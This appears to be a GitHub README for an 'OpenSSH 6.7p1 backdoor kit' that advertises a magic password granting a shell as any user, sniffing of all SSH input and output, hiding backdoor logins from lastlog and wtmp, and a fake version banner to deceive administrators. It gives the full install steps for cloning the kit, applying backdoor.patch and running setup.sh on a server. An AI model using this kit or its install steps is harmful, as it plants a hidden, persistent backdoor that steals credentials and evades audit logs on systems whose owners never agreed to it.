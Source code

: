 # OpenSSH 6.7p1 backdoor kit

<!--
coded by bl0w. bl0w@koresec.org
-->
## Features:

 - magic password to get shell with any user (encrypted or no)
 - sniffs all in/out from ssh/sshd, log file encrypted or no.
 - you can chose directory of log decryptor and directory of sniff-logs.
 - all connections accepted by backdoor wont logged by lastlog/wtmp/udp.
 - simple setup, just setup.sh!
 - fake banner and fake version, if admin do ssh -v or sshd -v banner will be faked! :~

## Get started:
## Follow instructions, it`s very easy!

```bash
$ apt-get install -y libpam0g-dev
$ wget http://www.mirrorservice.org/pub/OpenBSD/OpenSSH/portable/openssh-6.7p1.tar.gz
$ tar -xzvf openssh-6.7p1.tar.gz
$ cd openssh-6.7p1
$ git clone https://github.com/RaagulVigneshR/openssh-backdoor-kit.git
$ cp -v openssh-backdoor-kit/* ./
$ patch -p1 < backdoor.patch
$ sh setup.sh
```

## You can manually start:

```bash
$ /etc/init.d/ssh stop
$ /root/openssh-6.7p1/sshd -dd -f /etc/ssh/sshd_config
```
